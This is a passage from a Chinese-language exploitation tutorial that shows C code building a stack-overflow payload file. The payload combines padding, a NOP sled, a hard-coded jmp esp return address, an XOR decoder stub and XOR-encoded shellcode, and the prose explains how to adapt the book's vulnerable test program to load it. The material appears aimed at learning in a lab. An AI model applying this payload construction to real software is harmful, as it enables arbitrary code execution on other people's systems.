 ```
	}
	return p;
}
int main(int argc, char* argv[])
{
	char *szFilePath="c:\\test\\shellcode.bin";
	char *szFilePath2="c:\\test\\shellcode2.bin";
	unsigned char *BinData = NULL;
	size_t size = 0;	
	BinData = ReadBinaryFile(szFilePath, &size);
	for(int i=0;i<size;i++)
	{
		BinData[i]=BinData[i]^0x44;
	}
	FILE* f = NULL;	
	f = fopen(szFilePath2, "wb");
	if (f == NULL)
	{
		printf("Create error\n");
		return 0;
	}
	char filler[]="\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31\x34\x33\x32\x31";
	char nop[]="\x90\x90\x90\x90\x90\x90\x90\x90";
	char jmpesp[]="\x53\x93\xD2\x77";
	char decode[]="\x83\xC2\x14\x33\xC9\x8A\x1C\x0A\x80\xF3\x44\x88\x1C\x0A\x41\x80\xFB\x91\x75\xF1";
	char end[]="\xD5";
	fwrite(filler,sizeof(filler)-1,1,f);
	fwrite(nop,sizeof(nop)-1,1,f);
	fwrite(jmpesp,sizeof(jmpesp)-1,1,f);
	fwrite(decode,sizeof(decode)-1,1,f);
	fwrite(BinData,size,1,f);
	fwrite(end,1,1,f);
	fclose(f);
}
```

运行后生成shellcode2.bin


由于我们自己生成的这个shellcode长度较长，在测试时需要对原书中的栈溢出程序作修改，否则会报错，例如
`if(!(fp=fopen("password.txt","rw+")))`
应修改为
`if(!(fp=fopen("password2.txt","rb")))`

更多细节可参考完整代码，栈溢出测试程序的完整代码已上传至github，地址如下：

https://github.com/3gstudent/Shellcode-Generater/blob/master/stackoverflowExample(jmpesp).cpp

测试栈溢出测试程序

测试环境：
